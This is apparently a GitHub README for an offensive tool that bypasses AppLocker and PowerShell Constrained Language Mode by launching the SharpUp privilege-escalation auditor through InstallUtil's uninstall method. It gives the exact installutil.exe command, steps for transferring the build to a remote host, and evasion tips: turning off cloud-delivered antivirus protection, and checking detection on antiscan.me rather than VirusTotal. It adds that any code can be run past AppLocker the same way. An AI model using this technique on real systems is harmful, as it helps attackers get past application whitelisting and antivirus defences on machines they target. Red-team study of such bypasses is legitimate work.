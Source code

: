 ## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run SharpUp

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\SharpUp.exe
			
Steps
	
	1)Build the project
	2)Transfer the build exe to the rhost 
	3)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\SharpUp.exe
						
```

## Compile Instructions

This Project has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* The SharpUp Argument used here is "audit"
* when testing on a windows machine , disable the "Cloud Delivered Protection" , Off
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures
* You could run any code to bypass Applocker via "public class SharpUp : System.Configuration.Install.Installer" method



## Shout Out

[@harmj0y](https://twitter.com/harmj0y)

* https://github.com/GhostPack/SharpUp

